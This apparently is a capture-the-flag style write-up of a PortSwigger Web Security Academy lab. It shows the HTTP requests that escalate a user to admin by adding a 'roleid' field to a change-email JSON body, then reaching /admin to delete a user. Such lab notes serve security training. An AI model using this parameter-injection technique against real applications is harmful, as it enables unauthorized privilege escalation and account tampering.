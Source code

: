 ### [User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)

> App's `/admin` panel is accessible only to users with `roleid` = 2.
>
> Access the `/admin` panel and use it to delete user `carlos`.

```bash
POST /login HTTP/2
...
username=wiener&password=peter
```

- Once logged in, update the email

```bash
POST /my-account/change-email
```

![](.gitbook/assets/2024-01-28_10-25-53_404.png)

- Send this POST request to the repeater and add `"roleid:2"` into the JSON body

```bash
POST /my-account/change-email HTTP/2
Host: 0a2200c20471b32f842c9ada00f700c3.web-security-academy.net
...
{"email":"lab@example.com",
 "roleid": 2
}
```

![](.gitbook/assets/2024-01-28_10-28-36_405.png)
